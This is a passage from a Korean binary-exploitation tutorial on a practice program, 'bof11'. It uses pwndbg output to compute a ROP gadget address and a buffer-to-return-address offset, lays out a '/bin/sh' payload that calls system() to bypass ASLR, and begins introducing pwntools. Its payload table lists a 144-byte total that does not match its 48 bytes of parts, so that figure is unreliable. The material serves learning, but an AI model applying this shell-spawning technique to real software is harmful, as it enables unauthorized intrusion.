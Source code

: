 17. 결론적으로 `pop rdi ; ret` 의 주소값을 구할 수 있다. 

    `("pop rdi ; ret" 가젯의 주소값) = 0x7f836fd8d000 + 0x0000000000021102 = 0x7f836fdae102`

18. 그러면 최종적으로 `Z` 를 계산해보자. 

    ```shell
    pwndbg> p printf
    $14 = {<text variable, no debug info>} 0x7f836fde2800 <__printf>
    pwndbg> p/d 0x7f836fdae102 - 0x7f836fde2800
    $15 = -214782
    ```

19. 이렇게 `Z` 가 -214782 라는 것을 알 수 있다. 

## buf 에서 return address 까지의 거리

20. vuln 함수가 시작되었을 때 rsp 의 주소값을 확인하자. 이 주소값에 vuln 함수의 리턴 어드레스가 저장되어 있다. 

    ```shell
    pwndbg> i r rsp
    rsp            0x7ffe25be74c8   0x7ffe25be74c8
    ```

21. 그리고 gets 함수가 받는 인자를 확인해서 buf 의 주소값을 확인하고 리턴 주소값까지의 거리를 계산하자. 

    ```shell
    pwndbg> p/d 0x7ffe25be74c8 - 0x7ffe25be74b0
    $18 = 24
    ```

## ASLR 우회 페이로드 

22. bof11 은 printf 함수의 주소값이 유출된다는 설정을 가지고 있기 때문에 유출된 printf 함수의 주소값을 `A` 라고 하자. 그러면 쉘을 실행시키기 위한 페이로드는 다음과 같이 정해진다. 

| 쓰레기 값 | "pop rdi ; ret" 주소값 | "/bin/sh" 주소값 | system 주소값 | **총** |
|:------:|:----:|:-----:|:-----:|:-----:|
| 24 바이트 | 8 바이트   | 8 바이트 | 8 바이트 | **144 바이트** |

## POC 코드

printf 주소값을 받은 후 system 함수와 /bin/sh 문자열의 주소값, "pop rdi ; ret" 과의 거리를 계산해서 주소값을 도출해야 하기 때문에 일반적인 쉘 상에서는 익스플로잇 하기가 어렵고, `pwntool` 이라는 파이썬 패키지를 사용해보자. pwn 이라는 용어는 소유하다는 뜻의 own 에서 파생된 은어로써 권한이 없는 것을 소유해내다 라는 식의 의미로 생각하면 된다. 

### pwntool

- [pwntool](https://github.com/Gallopsled/pwntools) : 익스플로잇 코드 개발 전용 라이브러리로써 POC 코드, 익스플로잇 코드를 개발할 때 필수적으로 사용되는 라이브러리이다. 

  - **POC 코드**에 필요한 `pwntool` 의 함수들

    - `process(argv)` : 익스플로잇 대상이 되는 실행파일을 실행하고 프로세스를 다룰 수 있도록 `Processes` 인스턴스를 반환한다. 

